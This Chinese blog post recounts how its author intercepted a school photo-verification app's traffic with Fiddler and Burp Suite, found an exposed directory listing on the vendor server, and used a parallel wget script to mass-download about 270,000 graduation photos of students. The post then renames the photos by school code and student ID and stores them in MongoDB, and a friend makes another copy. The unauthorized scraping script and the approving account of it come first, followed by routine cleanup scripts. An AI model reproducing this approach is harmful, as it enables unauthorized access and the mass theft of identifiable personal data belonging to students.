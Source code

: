 ```yaml
---
layout: post
title: Crawl From Little III 
categories: 学习数据挖掘的路上
tags: 
- 学习笔记
- 抓取数据
---
```


### 这篇文章应该是几个星期前就该记录下来的。但<font color="green">世上哪得双全法，不负如来不负卿</font>。

# 当成故事来看，未尝不可，但是真的好爽啊

事情的起因很简单，就是上周上周上周的上周要进行全校本届毕业生彩像，然后过了大概一周，突然通知说让我们关注一个公众号，输入一串数字+学号+xl去验证是不是自己的照片。然后故事开始了。还有由于是几周之前的事情了，所以就不能在重现截图了。
## First：
手机wifi连接到我的笔记本，笔记本fiddler开代理。这样所有数据流向将十分清楚。所以很方便的找到了目的ip。然后burp suit拿出来，看看什么什么的，随便猜了下目录，竟然成了。服务器有目录遍历的漏洞，于是就直接写个小脚本wget去了，其实这样的话，并不是太完美，

```bash
#!/bin/bash
cat schoolname | while read line
do
	for ((i=0;i<8;i++));
	do
	{
		sleep 2;			
		wget -r -c -np -L http://xxxxip/wwtstudentcard/Web/public/appupload/$line/
	}&
	done	 
done 
```

就这样，扔服务器后台跑了一夜(谁让宿舍断网的，大爷的)，12G数据到手，总共27万张左右的图片（筛选之后乱七八糟的文件之后）。上面一个准确讲没什么技术含量，如果思路加小技巧算的话。

## Second：

拿到数据，有点多，但是有的目录是空的，有的还有html后缀的文件，还有的是学校的校徽，但是校徽的图片命名很规律，xiaohui.png .于是最后花了两天把所有空白文件删除，各种无关文件删除，并重命名图片文件名为学校代码+学号，并把大图和小图分别打包压缩，放到不同的文件夹中。当时发现一个很重要的事，就是一定要判断是不是文件，当时判断的时候默认是进入每个文件夹操作，结果有一个是文件，cd不了，肯定有错误，虽然是循环来处理，这个错误即使出现也不影响后面的操作，但还是值得注意，绝对。毕竟设计的脚本思路是进入文件夹，那么就应该判断是不是文件夹（只怪当时清理文件忘了清理校徽文件）。

```bash
cat hhhh | while read line
do
	cd $line
	ls | while read dirtype
	do
		#cd $dirtype
		#echo "Now I'm in:"  >> ../log
		#echo pwd  	    >> ../log
		cd $dirtype
		
		for fn in *.jpg
		do
			mv $fn $(pwd | grep -E "[0-9]" | awk -F "/" '{print $4}'
)$fn
		done
		cd ..
		#tar -cvzf $line.tar.gz $line
		#cd ..
	done
	
	#echo "Job Done "    >> log
	cd ..
done
```

## Third：

```bash
$ find -type d -empty	#找出所有的空文件夹
$ find $PWD #得到的是绝对路径 $pwd（小写的得到相对路径）
```

当时移除所有数据之后，准备

ls -aR | sed "s:^:`pwd`/:" > listto_mongo
cat listto_mongo | grep -v ".jpg" > temp
cat temp | while read line
do
	sed 's/$line//' listto_mongo

done

# Finally:

![tupian1](/images//crawl/allimg.png)
这是最后清洗完成后的数据，
最开始是这个样子的：
![tupian2](/images//crawl/wenjianjia.png)
后来处理并整理，可以从下面看出来虽然没考虑xiaohui.png这个问题，虽然有错误，但是但是竟然把xiaohui.png也打包了。
![tupian3](/images//crawl/22222.png)

![tupian4](/images//crawl/normalimg.png)
最后这个是准备重命名，并得到所有的绝对路径之后，导入到mongo中去，但是现在我觉得这不是一个好主意，虽然GridFs设计的就是为这种不大不小的文件而生，而且放入数据库便于携带，但是还是不得不说，速度并不快。
![tupian5](/images//crawl/rename.png)
一开始是打算用python+pymongo获取所有的文件并插入进去，但是后来发现mongofiles -d images put xxxx.png就可以实现，这样的话一个几行的shell就能搞定了，直接读取所有保存文件路径名的文本，多个线程插入即可。但是其实这也不好。因为我的照片即使是大的也没有256k,那么就不会把一个照片分块存储，而且每次存取将十分麻烦。虽然mongo可以访问远程mongo服务器，但总的来讲，对我并不是一个好主意。但是出于各种原因还是存了(哭笑不得)。
顺便，和好朋友一起，告诉他这个东西之后，他也在他的服务器上抓了所有的，而且直接保存到sqlite了，虽然我觉的这种东西都不应该放到数据库，但是一切为了备份～_～



# End
最后作为一个小菜鸟，路还很长，这是我习惯说的一句话，虽然有点啰嗦。还有一些小脚本，去服务器看时，发现已经没了，所以贴不来了。













